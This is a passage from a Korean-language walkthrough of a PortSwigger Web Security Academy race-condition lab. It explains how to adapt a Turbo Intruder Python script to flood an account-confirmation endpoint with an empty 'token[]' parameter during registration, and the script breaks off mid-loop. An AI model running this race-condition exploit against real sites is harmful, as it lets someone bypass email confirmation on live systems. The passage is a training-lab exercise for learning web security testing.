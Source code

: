 ![Turbo Intruder 화면](/images/burp-academy-race-condition-5-10.png)


6. 파이썬 코드를 수정한다. 다음과 같이 수정하였다. 
- 총 20번 시도한다. 각 시도별로 username을 다르게 한다. 
- 각 시도별로 동일한 gate를 사용한다. 
- 하나의 유저 등록요청(register요청)에 대해 50번의 confirm요청을 보낸다. (레이스 윈도우에 confirm요청이 들어갈 확률을 높이기 위함이다. 버퍼오버플로우의 NOP 썰매와도 비슷한 테크닉으로 보인다.)
- confirmationReq 문자열에는 탭이 들어가지 않도록 주의한다. 예를 들어, Host 헤더앞에 탭이 들어가지 않도록 한다. 탭이 그대로 HTTP요청에 반영되기 때문이다. 

```py
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a8d0043030e120081abd0cf00450062.web-security-academy.net
Cookie: phpsessionid=fJL0F9KqEELmeszsU74yM4FWOGFLObtP
Content-Length: 0
    
'''

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'User' + currentAttempt
```